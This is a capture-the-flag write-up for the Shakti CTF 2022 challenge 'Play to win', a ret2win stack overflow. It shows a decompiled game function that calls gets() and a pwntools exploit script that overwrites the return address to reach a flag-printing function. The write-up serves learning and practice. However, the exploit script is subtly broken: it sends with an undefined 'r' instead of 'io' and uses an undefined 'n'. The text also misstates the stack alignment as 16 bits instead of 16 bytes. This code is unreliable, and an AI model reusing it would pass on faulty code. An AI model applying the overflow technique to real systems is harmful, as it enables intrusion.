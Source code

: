 # Shaktictf 22 writeups

## Play to win
DESCRIPTION:

I was playing a game of adding words with my friends, until I added one too long!

Note: The server is running on Ubuntu 20.04.

FLAG FORMAT: shakti{}
### Intended solution:
This is a basic ret2win challenge.

A binary file is given as an attachment, where the usual checks give:

![](https://i.imgur.com/NqZOOmp.png)

![](https://i.imgur.com/BVAl2Cl.png)

Running the file-
![](https://i.imgur.com/3gEnXL2.png)


Decompiling the game fuction in binary gives the following-
```
int game()
{
  int result; // eax
  int v1; // eax
  char v2[2]; // [rsp+8h] [rbp-18h] BYREF
  char s[10]; // [rsp+Ah] [rbp-16h] BYREF
  int v4; // [rsp+14h] [rbp-Ch]
  int v5; // [rsp+18h] [rbp-8h]
  int v6; // [rsp+1Ch] [rbp-4h]

  puts("You think you can do this?");
  result = puts("I don't think so.");
  v5 = 0;
  v4 = 0;
  while ( v5 != 1 )
  {
    printf("Add the word:");
    gets(s);        //gets function here!
    v1 = strlen(s);
    result = v1 + v4;
    v4 = result;
    if ( result == 10000 )
    {
      v5 = 1;
      v6 = 1;
      break;
    }
    puts("Do you want to continue?");
    printf("Yes or No [y/n]:");
    __isoc99_scanf("%s", v2);
    getchar();
    result = (unsigned __int8)v2[0];
    if ( v2[0] == 121 || (result = (unsigned __int8)v2[0], v2[0] == 89) )
    {
      v5 = 0;
    }
    else
    {
      result = (unsigned __int8)v2[0];
      if ( v2[0] == 110 || (result = (unsigned __int8)v2[0], v2[0] == 78) )
        v5 = 1;
      else
        result = puts("Wrong input.");
    }
  }
  if ( v6 == 1 )
  {
    winfunc();
    exit(0);
  }
  return result;
}
```
The basic objective of the game is to add words till the combined length of them all reaches 10000, upon which the game re-directs to a winfunc(), where it prints :
 ```
Ah well, you did win afterall.
I guess congratlations are in order.
```
 On opening the file in gdb and observing all the functions-
![](https://i.imgur.com/hBilDaC.png)

We see that there are two win fuctions here, winfunc and reallywin.And reallywin shows:
```
void __noreturn reallywin()
{
  puts("I may have underestimated you");
  puts("You win!");
  system("cat flag.txt");
  exit(0);
}
```
So basically you just have to redirect the control flow of the rip to reallywin. We have a gets fuction here, so we can overflow and overwrite rip.

Now as stack is 16 bit aligned, it took 30 bytes of data to overwrite the buffer and we have to use the ret gadget to return back to the stack and overwrite rip with address of `reallywin`


Exploit:

```python
from pwn import *
elf = ELF("game")
io=process(elf.path)
ret = 0x40101a # Used to align stack

win = elf.symbols['reallywin']

#Fill the Buffer with 30 A's --> overwrite return address with ret gadget to align the stack --> then address of the reallywin function
payload = b"A"*30 + p64(ret) + p64(win)
r.sendline(payload)
r.sendline(n) #to pass last check
r.interactive()
```
This gives the flag:
`shakti{G0od_joB_5olviNg_Thi5_1}`